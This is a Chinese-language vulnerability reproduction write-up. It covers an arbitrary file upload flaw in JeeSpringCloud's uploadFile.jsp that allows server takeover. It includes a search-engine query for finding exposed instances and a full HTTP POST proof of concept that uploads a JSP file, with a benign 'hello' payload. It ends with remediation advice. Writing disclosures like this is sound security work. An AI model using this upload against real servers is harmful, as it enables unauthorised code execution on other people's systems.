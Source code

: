 
# JeeSpringCloud uploadFile.jsp 文件上传漏洞复现

###  0x01 产品简介

  JeeSpringCloud 是一款免费开源的 JAVA 互联网云[快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)，微服务分布式代码生成的敏捷开发系统架构，项目代码简洁、注释丰富、上手容易、还同时集中分布式、分布式事务、微服务，同时包含许多基础模块和监控、服务模块，JeeSpringCloud GVP 项目、1k+Star 项目。

### 0x02 漏洞概述

 JeeSpringCloud 是一款免费开源的 Java 互联网云快速开发平台。JeeSpringCloud 访问 /static/uploadify/uploadFile.jsp 可上传任意文件，并可通过 uploadPath 参数指定文件上传路径，导致服务器被控制。

### 0x03 复现环境

钟馗之眼：app:"JeeSpringCloud"

![](assets/1701138387-9421c54b56b98f384b08e13d608fee13.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /static/uploadify/uploadFile.jsp?uploadPath=/static/uploadify/ HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 199
Content-Type: multipart/form-data; boundary=0d0d9bdfedC1bF17Cb47265DdCb04266
Accept-Encoding: gzip
Connection: close

--0d0d9bdfedC1bF17Cb47265DdCb04266
Content-Disposition: form-data; name="fileshare"; filename="1.jsp"
Content-Type: image/jpeg

<% out.println("hello"); %>
--0d0d9bdfedC1bF17Cb47265DdCb04266--
```

![](assets/1701138387-8956284e41a6edbfbe537d97915abb48.png)

验证路径

```cobol
http://your-ip/static/uploadify/回显的jsp文件名
```

![](assets/1701138387-5d46702c1e2408a89d80c191ed69a9e7.png)

### 0x05 修复建议

关闭互联网暴露面或文件上传模块设置权限认证

升级至安全版本
